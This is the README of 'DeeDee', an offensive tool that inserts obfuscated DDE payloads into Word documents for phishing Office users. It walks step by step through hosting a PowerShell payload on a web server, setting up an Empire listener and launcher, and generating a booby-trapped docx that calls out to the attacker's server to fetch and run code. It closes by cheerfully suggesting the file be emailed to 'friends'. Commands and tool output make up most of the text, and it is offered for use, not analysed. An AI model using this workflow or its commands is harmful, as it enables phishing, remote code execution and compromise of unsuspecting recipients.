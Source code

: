 <h2> DeeDee Office Payload Generator<h6>Baking Evil Cookies since 2017<br>Author: True Demon</h2>

<h3>Introduction##</h3>

DeeDee is a script for quickly generating DDE Exploit payloads and inserting them into ready-made documents for
phishing attempts against MS office users. The purpose of the script is to simplify and reduce the steps necessary to insert a
malicious DDE payload into supported versions of Office documents. It accomplishes this by inserting the payload in raw XML 
into the document themselves complete with known obfuscation methods to ensure a successful delivery and execution. This is
accomplished by inserting a reliable download script in powershell into the DDE payload, which calls out to the attacker's web
server hosting their desired payload. Currently, Empire payloads have had the best success.

<h3>Procedure</h3>

Start by creating a powershell payload that you would like to run on the remote host. If you use base64 encoding, this must be
specified in the script later. Base64 encoding is definitely recommended for successful execution. Save the payload to a txt
file in a temporary directory and start up a web server. The Python Simple HTTP server is sufficient, but any web server will do.

EX:
<pre>
cd /tmp/payloads
python3 http.server [port]
cp /tmp/empirepayload.txt /tmp/payloads/evil.txt
[*] Now you can then run deedee.py to create your malicious docx file.
</pre>

<br/>
<b>use -i for your input file [default = template/blank.docx]</b>

<pre>
<b>NOTE</b>: You must use the "blank.docx" file in /path/to/deedee/templates/ to start with. <br/>
You can edit any part of this document
before or after you have run deedee, provided that you DO NOT MODIFY THE FOOTER. 
It is recommended you edit it beforehand and save it to the templates folder so that you use it again later
</pre>

<b>use -o to specify where you would like your output to go</b>
<pre>
deedee@thekitchen:/# ./deedee.py -i templates/myphishing.docx -o /tmp/payloads/evilcookies.docx
</pre>
Enter the path to your http server & empirepayload: 
> http://my-ip-addr/evil.txt

Granny DeeDee bakes up some magic cookies for your enjoyment...
and you can email the evilcookies.docx to share with your friends :)
</pre>
<br/>
<h3>Supported Techniques</h3>

    - Raw Powershell Payload insertion
    - Empire Web Delivery Method


<h3>Planned Additions</h3>

    - Empire & Metasploit specific payloads
    - QUOTE-SET-REF method obfuscation
    - Mimikatz dump payload
    - Invoke-MetasploitPayload method
    - Self-starting payload delivery web server


<h3>Instructions</h3>

<h4>USAGE</h4>
<pre>
deedee@thekitchen:/# ./deedee.py -h
usage: deedee.py [-h] [-i INPUT_FILE] [-o OUTPUT_FILE] [-c] [-v] [--debug]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT_FILE, --input_file INPUT_FILE
                        Payload carrier file
  -o OUTPUT_FILE, --output_file OUTPUT_FILE
                        File with payload attached
  -c, --custom_payload  Override the default web delivery method with a custom
                        CMD/PSH payload as a string
  -v, --verbose         Show verbose output
  --debug               Print debug statements
</pre>
<h4>Full Example</h4>

<h5>Start Your Webserver</h5>
<pre>
deedee@thekitchen:/# cd /tmp/payloads
deedee@thekitchen:/# python3 -m http.server 8443         // Remember whatever port number you use here...
</pre>

<h5>Generate your malicious payload</h5>
<pre>
deedee@thekitchen:/# /usr/share/empire/./empire
> listeners
> uselistener http
> set Port 443
> set Host 192.168.1.123
> execute
> launcher powershell
</pre>

<em>COPY THE ENCODED PAYLOAD AND SAVE IT TO YOUR WEB SERVER DIRECTORY (Ignore "powershell -nop -sta -w 1 -enc")</em>
<pre>
deedee@thekitchen:/# echo "MASSIVEEMPIREPAYLOADINBASE64HERE" > /tmp/payloads/evil.txt
</pre>

<h5>Now you're ready to create your phishing document...</h5>
<pre>
deedee@thekitchen:/# ./deedee.py -i ~/PhishingTemplates/inconspicuous.docx -o /tmp/payloads/evilscheme.docx

[!] Let's bake some evil cookies!

[*] First, we'll be needing some ingredients!
|	 First, mix up the powershell payload you want executed on the host with your favorite framework,
|	 save it as a text file, and host it on a local web server. Now I just need to know where to find it.
|	 URI to payload...
|	 (ex: http://evilserv.ninja/blabbity.txt)
|		 #>:http://192.168.1.123:8443/evil.txt                  // This is the full path to your web server with your empire payload
|	 Will you be using an encoded payload? [y/N] #>: N
[?] Would you like to leave a special note on the error message for your friend? [default: "for security reasons"]
[+] Grabbing my bag of magic XML...:                            // Loading the payload
[+] Checking for my recipe...                                   // Making sure you used blank.docx as your template
[+] Ah, here it is!                                             // Your document is compatible!
[+] Tossing three cups of evil into the XML...                  // Generating your payload with your web server address
[+] Added a teaspoon of powershell...                           // Setting up the powershell payload
[+] ...Some malicious intent, and a few naughty thoughts ;)     // Obfuscating the payload
[+] Mixing XML into the DOCX...                                 // Creating the XML files and rebuilding your docx
[+] The cookies are in the oven...                              // Ensures the docx is not corrupted
[+] DING! The evil cookies are done!                            // SUCCESS! :)
</pre>

<h3>Acknowledgements</h3>
<pre>
Michael Benich @benichmt1 - Provided a lot of additional research material necessary to create this exploit
<a href=https://sensepost.com/blog/2017/macro-less-code-exec-in-msword>Etienne Stalmans & Saif El-Sherei </a>- For their amazing, combined research efforts into DDE exploitation and obfuscation
Mike Czumak @SecuritySift - For his payload obfuscation methods & research
<a href=https://pwndizzle.blogspot.com/2017/03/office-document-macros-ole-actions-dde.html>PwnDizzle</a>                 - For his/her research provided on his blog
<a href=http://github.com/xillwillx>Vincent Yiu @vysecurity </a>  - For code concepts derived from his CactusTorch project
<a href=http://github.com/0xdeadbeefJERKY>0xdeadbeefJERKY</a>           - For code concepts derived from his Office-DDE-Payloads project
</pre>